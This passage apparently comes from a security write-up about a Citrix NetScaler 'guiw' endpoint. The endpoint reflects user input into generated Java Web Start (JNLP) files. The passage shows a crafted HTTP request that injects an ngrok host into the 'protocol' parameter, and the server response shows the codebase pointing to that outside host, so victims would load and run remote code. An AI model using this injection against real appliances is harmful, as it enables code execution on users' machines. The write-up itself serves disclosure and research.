 ```http
<jar href="/admin_ui/php/application/views/applets/jnlp.jar"/>
<jar href="/admin_ui/php/application/views/applets/sinetfactory.jar"/>
<jar href="/admin_ui/php/application/views/applets/sslava.jar"/>
<jar href="/admin_ui/php/application/views/applets/pixl.jar"/>
<jar href="/admin_ui/php/application/views/applets/looks.jar"/>
<jar href="/admin_ui/php/application/views/applets/l2fprod-common-tasks.jar"/>
<jar href="/admin_ui/php/application/views/applets/commons-codec.jar"/>
<jar href="/admin_ui/php/application/views/applets/java40.jar"/>
<jar href="/admin_ui/php/application/views/applets/prefuse.jar"/>
<jar href="/admin_ui/php/application/views/applets/gson.jar"/>
</resources>

<application-desc main-class="ns.im.Gui">
<argument>-D</argument>
<argument>0</argument>
<argument>-WS</argument>
<argument>0</argument>
<argument>-codebase</argument>
<argument>2://citrix.local</argument>
<argument>-ns4</argument>
<argument>1</argument>
<argument>-ns10</argument><argument>4</argument></application-desc>
</jnlp>
```

By now you've probably already noticed that user input is directly reflected in the output. This means you can pretty easily change some stuff around, and try to get a user to execute random code on their machine. For example:

```http
GET /menu/guiw?nsbrand=HENKA&protocol=8d96faa9.ngrok.io">&id=HENKC&nsvpx=phpinfo HTTP/1.1
Host: citrix.local
```

Returns:
```http
HTTP/1.1 200 OK
Date: Sun, 26 Jan 2020 12:52:01 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=10
X-XSS-Protection: 1; mode=block
Content-Length: 2398
Connection: close
Content-Type: application/x-java-jnlp-file

<jnlp codebase="8d96faa9.ngrok.io">://citrix.local" href="/menu/guiw?nsbrand=HENKA&protocol=8d96faa9.ngrok.io">&id=HENKC&nsvpx=phpinfo">

<information>
<title>GUI citrix.local</title>
<vendor>Citrix Systems, Inc.</vendor>
```
